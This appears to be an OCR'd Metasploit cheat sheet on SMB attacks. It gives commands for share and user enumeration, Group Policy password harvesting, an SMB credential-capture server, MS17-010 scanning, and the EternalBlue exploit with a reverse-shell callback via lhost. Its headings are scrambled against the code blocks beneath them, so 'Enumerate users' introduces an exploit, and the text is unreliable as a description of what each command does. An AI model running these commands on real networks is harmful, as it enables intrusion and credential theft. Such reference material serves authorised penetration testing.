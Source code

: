 ### SMB Login and Interactive Sessions
session within the smb instance. Running with the following options:
```
use auxiliary/scanner/smb/smb_version
run smb://10.10.10.161
```

Should give you output similar to
```
use auxiliary/scanner/smb/smb_enumshares
run smb://10.10.10.161
run smb://user:pass@10.10.10.161
run 'smb://domain;user with spaces:pass@192.168.123.4' SMB::AlwaysEncrypt=false SMB::ProtocolVersion=1
```

Which you can interact with using `sessions -i <session id>` or `sessions -i -1` to interact with the most recently opened session.
```
use auxiliary/scanner/smb/smb_enumshares
run 'smb://user:pass with a space@10.10.10.161' showfiles=true spidershares=true
```

When interacting with a session, the help command can be useful:
```
use auxiliary/scanner/smb/smb_enumusers
run smb://user:p4$$w0rd@192.168.123.13
```

### SMB Enumeration
Enumerate SMB version:
```
use auxiliary/scanner/smb/smb_enum_gpp
run smb://192.168.123.13/share_name verbose=true store=true
run smb://user:p4$$w0rd@192.168.123.13/share_name verbose=true store=true
```

Enumerate shares:
```
use auxiliary/server/capture/smb
run
```

Enumerate shares and show all files recursively:
```
use auxiliary/scanner/smb/smb_ms17_010
check 10.10.10.23
check 10.10.10.0/24
check smb://user:pass@10.10.10.1/
check smb://domain;user:pass@10.10.10.1/
check cidr:/24:smb://user:pass@10.10.10.0 threads=32
```

Enumerate users:
```
use exploit/windows/smb/ms17_010_eternalblue
run 10.10.10.23 lhost=192.168.123.1
run 10.10.10.0/24 lhost=192.168.123.1 lport=5000
run smb://user:pass@10.10.10.1/ lhost=192.168.123.1
run smb://domain;user:pass@10.10.10.1/ lhost=192.168.123.1
```
